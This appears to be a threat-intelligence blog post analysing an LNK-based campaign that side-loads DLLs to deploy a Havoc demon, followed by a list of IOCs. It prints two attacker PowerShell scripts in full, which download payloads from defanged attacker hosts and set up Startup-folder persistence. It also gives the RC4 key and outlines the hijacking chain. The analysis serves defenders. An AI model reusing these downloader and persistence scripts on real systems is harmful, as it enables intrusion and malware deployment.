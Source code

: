 ```yaml
---
title: Targeted Campaign Delivering Havoc
by: dmpdump
tags: malware havoc
---
```


On January 15, 2025, a file named DH-Report76.pdf.lnk was uploaded to VirusTotal. The LNK file was likely being delivered to victims from `army-mil[.]zapto.org`.

![sshot](/assets/images/havoc/lnkdelivery.png)

Parsing the LNK file, we can see that it runs a PowerShell downloader that gets a PowerShell script from `army-mil.b-cdn[.]net`, using the Bunny Content Delivery Network.

![sshot](/assets/images/havoc/psdownloader.png)

Looking at the metadata, we can see that the LNK file was created on a machine named `kasperskys`, likely on December 18, 2024.

![sshot](/assets/images/havoc/lnkmeta.png)

The PowerShell script performs the following actions:
* It downloads an encrypted payload named `onelog.dll`
* It downloads `sppc.dll`, a loader DLL
* It copies the legitimate `phoneactivate.exe` to \AppData\Local\, renaming it to "word.exe"
* It creates an LNK for persistent execution of the renamed `phoneactivate.exe` via the Startup folder

```powershell
$url2 = 'army-mil.b-cdn[.]net/onelog.dll';
$url3 = 'army-mil.b-cdn[.]net/sppc.dll';
$source = "C:\Windows\System32\phoneactivate.exe";
$destination = Join-Path -Path "C:\Users\$env:USERNAME\AppData\Local" -ChildPath "word.exe";
$outputPath2 = Join-Path -Path "C:\Users\$env:USERNAME\AppData\Local" -ChildPath "onelog.dll";
$outputPath3 = Join-Path -Path "C:\Users\$env:USERNAME\AppData\Local" -ChildPath "sppc.dll";
Invoke-WebRequest -Uri $url2 -OutFile $outputPath2;
Invoke-WebRequest -Uri $url3 -OutFile $outputPath3;
Copy-Item -Path $source -Destination $destination;
Start-Process -FilePath $destination -WorkingDirectory "$env:TEMP";
$ShortcutPath = "C:\Users\$($env:USERNAME)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\edge.lnk";
$TargetPath = "C:\Users\$($env:USERNAME)\AppData\Local\word.exe";
$WorkingDirectory = "C:\Users\$env:USERNAME\AppData\Local";
$WshShell = New-Object -ComObject WScript.Shell;
$Shortcut = $WshShell.CreateShortcut($ShortcutPath);
$Shortcut.TargetPath = $TargetPath;
$Shortcut.WorkingDirectory = $WorkingDirectory;
$Shortcut.Save()

```
The malicious `sppc.dll` is used for DLL hijacking. This DLL is loaded by the legitimate `phoneactivate.exe`. This DLL decrypts a shellcode loader and the next stage DLL from `onelog.dll`.

![sshot](/assets/images/havoc/onelog.png)

`sppc.dll` uses the undocumented `SystemFunction033` NTAPI for RC4 decryption. The key used for the payload decryption is `nbmavjzjlsbpixbddwqqmkqrdejdihrq`.

![sshot](/assets/images/havoc/readencpload.png)

![sshot](/assets/images/havoc/system033.png)

The decrypted `onelog.dll` is comprised of a shellcode loader followed by the next stage DLL, which is the final payload.

![sshot](/assets/images/havoc/decsc.png)

![sshot](/assets/images/havoc/decdll.png)

The loader shellcode resolves APIs via hashes using an implementation of the djb2 algorithm.

![sshot](/assets/images/havoc/scapires.png)

![sshot](/assets/images/havoc/djb2impsc.png)

# Final Payload: Havoc Demon

The original name of the final DLL payload is `demon.x64.dll`, a file name commonly associated with the demons (clients) of the Havoc framework. 

![sshot](/assets/images/havoc/origdllname.png)

The APIs in this DLL are also resolved via the djb2 algorithm, which we can also confirm in the project's [source](https://github.com/HavocFramework/Havoc/blob/41a5d45c2b843d19be581a94350c532c1cd7fd49/payloads/DllLdr/Source/Entry.c).

The demon has the following embedded configuration:

![sshot](/assets/images/havoc/demonconfig.png)

# Related activity
Trying to figure out if this campaign was related to something already known, I came across some X posts from [@JAMESWT_MHT](https://x.com/JAMESWT_MHT/status/1869724537115541616), [@malwrhunterteam](https://x.com/malwrhunterteam/status/1870065851828732282), and [@marsomx_](https://x.com/marsomx_/status/1870059140355084599) where they had found a similar Demon payload (also using a C2 hosted in Alibaba) associated with a campaign possibly targeting Bangladesh using a fraudulent transaction lure.

![sshot](/assets/images/havoc/mwht.png)

Additionally, [@StrikeReadyLabs](https://x.com/StrikeReadyLabs/status/1876284392319963587) did fantastic work discovering related activity, possibly targeting Bangladesh, Pakistan, and China. The LNK file shared by StrikeReady (136dd864f5772a6567aff34fcbe6f0665b7cc04b2d486004c370f410bee259b1) downloads a PowerShell script likely generated with an LLM:

```powershell
# Define URLs
$url1 = "uat-updates.gateway.ceair.com.81-cn[.]info/sspicli.dll"
$url2 = "uat-updates.gateway.ceair.com.81-cn[.]info/windowskernel32.dll"

# Define target folder
$targetFolder = "$env:LOCALAPPDATA\Microsoft\OneDrive"

# Ensure target folder exists
if (-not (Test-Path -Path $targetFolder)) {
    New-Item -ItemType Directory -Path $targetFolder -Force
}

# Define file paths
$file1 = Join-Path -Path $targetFolder -ChildPath "sspicli.dll"
$file2 = Join-Path -Path $targetFolder -ChildPath "windowskernel32.dll"

# Download the files
Invoke-WebRequest -Uri $url1 -OutFile $file1
Invoke-WebRequest -Uri $url2 -OutFile $file2

Write-Host "Files downloaded successfully to $targetFolder"
```
The files downloaded by the script are `sspicli.dll`, a payload decryptor, (7498a07f903486473cce83fbf16b88009765af98326e1ebef4c48f103b874f65) and `windowskernel32.dll`, the encrypted payload (90f43a20a956b5d2e7b73cd3c2a6896a3af032414a297a23d0f07ef2f1016b17). Interestingly, in this activity the threat actor did not download an executable for the DLL hijacking. Instead, they saved the trojanized DLL and encrypted payload to the OneDrive folder, so that the payload is loaded by OneDrive.exe.

`sspicli.dll` is a similar RC4 decryptor/loader for a Havoc demon that uses Cloudflare Workers for the C2.

![sshot](/assets/images/havoc/strikedec.png)

![sshot](/assets/images/havoc/strikeconfig.png)


# IOCs
* Delivery domain 1: army-mil\[.\]zapto.org
* Delivery domain 2: army-mil.b-cdn\[.\]net
* DH-Report76.pdf.lnk: 207b27f4f17802dc951b6300eaeeaed181ee7567526325f940e66242f54d3add
* f.ps1: 03dc626901d475bed1118e04a53405000b082180d5cd5d1105c1180432cf0c23
* Onelog.dll: 2a09b5f1429eb2b6049e374200cb39d7075dd962098adb6b61b0bafbcee9b487
* sppc.dll decryptor/loader: fe3659fe8ceedc9acbd84eca852f06feeb235e9fe83fa6da2383d17f6e0108c5
* Demon C2: 47.250.118\[.\]131